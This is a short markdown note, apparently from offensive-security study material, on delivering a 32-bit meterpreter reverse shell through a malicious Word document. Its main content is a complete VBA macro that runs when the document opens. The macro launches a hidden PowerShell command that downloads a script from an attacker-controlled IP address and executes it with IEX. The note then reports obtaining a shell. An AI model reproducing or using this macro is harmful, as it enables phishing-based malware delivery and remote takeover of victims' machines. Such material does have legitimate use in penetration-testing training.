

## Bypassing Powershell Execution
Our dll and script are ready to go, and we can execute the script using a 64-bit powershell session.
However, that's not very useful, because our victim will in no world, be running a powershell script in a powershell session to call our shell.

To tackle this, we'll edit our dll to be 32 bit, and also use a 32 bit meterpreter reverse shell that will be called using a word macro.

We start by compiling the code in [Reflective Load](Reflective%20Load.md) note, to be 32 bit instead of 64 bit.

We will then create the macro with the following code, to use powershell to download and run our powershell script:
```VBA
Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.49.160/vs-run.ps1') | IEX"
    Shell str, vbHide
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```

Running the script, we get a shell:


